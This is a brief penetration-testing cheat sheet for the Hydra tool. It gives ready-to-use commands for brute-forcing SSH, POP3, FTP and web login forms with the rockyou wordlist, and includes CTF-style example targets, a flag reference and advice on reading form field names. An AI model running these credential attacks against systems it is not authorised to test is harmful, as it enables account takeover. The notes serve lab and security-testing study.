 Used to brute force a password from a list
**SSH**
`hydra -l <username> -P /root/Tools/wordlists/rockyou.txt <ssh/pop3/ftp>://10.10.89.47 -s <port> `

**Webpage Login**
`hydra -l <username> -P /root/Tools/wordlists/rockyou.txt <URL> http-post-form "/<page>:username=^USER^&password=^PASS^:F=incorrect" -V`

Get the information from either ‘View page source’ or from Burpsuite
`hydra -l admin -P /root/Tools/wordlists/rockyou.txt -s 6767 127.0.0.1 http-post-form "/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password"``

Example:
`hydra -l hagrid -P /usr/share/wordlists/rockyou.txt hogwartz-castle.thm http-post-form "/login:user=^USER^&password=^PASS^&submit=submit:F=Incorrect Username or Password" -V -I`

**Flags**
`-l` Single Username
`-L` List of Usernames
`-p` Single Password
`-P` List of Passwords e.g. /root/Tools/wordlists/rockyou.txt
`-s` Specify Port (Default is 80)
`-F` Failed login message
`-V` Verbose
`-I` Ignore an existing restore file (don't wait 10 seconds)

Things to check:
•	Inspect the page and check what the username and password inputs are recorded as e.g:
```
<label for="inputEmail" class="sr-only">Username</label>
      <input type="text" name="username" class="form-control" placeholder="Username" required autofocus>
      <label for="inputPassword" class="sr-only">Password</label>
      <input type="password" name="password" class="form-control" placeholder="Password" required>
      <button class="btn btn-lg btn-primary btn-block" type="submit">Login</button>

```
